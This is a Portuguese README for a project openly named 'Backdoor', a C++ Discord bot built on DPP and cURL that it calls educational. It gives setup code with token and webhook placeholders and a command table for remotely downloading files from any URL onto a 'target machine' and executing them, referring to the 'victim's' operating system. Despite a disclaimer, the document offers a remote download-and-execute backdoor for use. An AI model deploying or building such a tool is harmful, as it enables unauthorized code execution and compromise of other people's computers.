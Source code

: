 # Backdoor

Esse projeto é uma API pública para fins educacionais que se assemelha a um backdoor.  
Você pode utilizá-la junto ao seu programa para realizar downloads e executar arquivos na máquina alvo.  
Isso pode abrir portas para um trojan, mas o objetivo deste projeto não é esse.  

## Instalação das Dependências

Este programa requer **DPP** e **cURL**.  
No Arch Linux, por exemplo, você pode instalá-los facilmente com o AUR:

```sh
yay -S dpp curl
```

    #include "network.hpp"
    
    int main() {
        std::string token = "SEU_TOKEN_AQUI";
        const std::string webhook_url = "SEU_WEBHOOK_AQUI";
        const std::string version = "1.3";

    network program(token, webhook_url, version);
    program.MAIN();
    program.perfomBot();

    return 0;
    }

OBS: O código acima é um exemplo e pode precisar de ajustes para funcionar corretamente.

ATENÇÃO: Se o sistema operacional da vítima não for Windows, o comando de execução do arquivo baixado precisará ser alterado.
Atualmente, ele usa o comando start do Windows. Para modificar, edite a linha 64 do arquivo network.hpp.

Comandos Básicos

Os comandos do bot são acionados pelo prefixo ;.
Segue a lista de comandos disponíveis:
Comando	Função
```
;shutDown	    Desliga o bot (não a máquina).
;deBugger on	Ativa o modo debug.
;deBugger off	Desativa o modo debug.
;version	    Mostra a versão do bot.
;add <grupo>	Adiciona o bot a um grupo específico.
;pl.<tipo>	    Baixa um arquivo da internet (png, exe, gif, etc.).
;op.<tipo>	    Abre um arquivo baixado.
;credits	    Exibe os créditos do projeto.
;devBot	        Link para configurar o bot no Discord.
```

Exemplo de Uso:

Para baixar um arquivo .png, envie:

;pl.Png https://example.com/imagem.png

Para abrir o arquivo baixado:

;op.Png
